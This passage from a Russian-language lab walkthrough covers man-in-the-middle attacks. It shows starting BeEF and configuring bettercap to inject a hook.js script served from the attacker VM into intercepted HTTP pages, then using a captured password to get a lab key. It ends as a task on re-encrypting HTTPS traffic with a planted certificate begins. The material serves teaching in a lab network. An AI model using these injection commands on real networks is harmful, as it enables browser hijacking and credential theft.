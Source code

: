     sudo beef-xss


Логин - beef
Пароль задается при запуске

Пример ввода в bettercap, где 192.168.56.101 - IP адрес ВМ атакующего (отображается в bettercap):
```text
http.proxy off
set http.proxy.injectjs http://192.168.56.101:3000/hook.js
http.proxy on
```

![пример перехваченых событий beef](img/4/beef.png)

Заходим на part2.local, вводим успешно полученный пароль, получаем ключ.


:::tip Ура!

Второй ключ для сдачи лабораторной получен!

:::

## Задание 3 - что делать, если пользователь не переходит на http?

В случае, если пользователь не переходит на http трафик, мы не сможем расшифровать перехваченые пакеты. Представим, что нам удалось провести атаку по другому вектору и подложить пользователю свой доверенный сертификат. В таком случае, мы сможем перешифровывать проходящий через нас трафик, читая и изменяя его: 

Выключить sslstrip, если он включен (некоторые прошлые пункты ЛР перестанут работать!):
```text
http.proxy off
```
